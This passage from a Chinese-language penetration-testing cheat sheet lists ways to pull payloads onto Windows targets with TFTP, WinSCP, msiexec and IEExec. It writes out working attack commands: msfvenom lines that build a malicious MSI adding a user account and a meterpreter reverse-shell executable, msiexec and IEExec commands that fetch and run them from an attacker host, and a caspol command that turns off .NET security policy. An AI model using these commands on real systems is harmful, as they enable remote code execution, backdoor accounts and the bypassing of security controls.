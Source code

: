 ### 7.TFTP

用来下载远程文件的最简单的网络协议，它基于`UDP`协议而实现

tftp32服务端下载地址：http://tftpd32.jounin.net/tftpd32_download.html

```bash
tftp -i <你的payload的IP> get <要下载payload文件> <存放目标机器的目录位置>
```



### 8.WinScp

WinSCP是一个Windows环境下使用SSH的开源图形化SFTP客户端。

```bash
#上传 
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "put D:\1.txt /tmp/" "exit" /log=log_file.txt 

#下载 
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.tx
```



### 9.msiexec

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

```bash
#在攻击机器上生成msi包 
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi 

#在目标机器上远程执行（直接写payload的ip和文件） 
msiexec /q /i http://192.168.28.128/evil.msi
```



### 10.IEExec

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

先在攻击机生成Payload：

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
```

使用管理员身份打开cmd，分别运行下面两条命令。

```bash
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off

C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
```
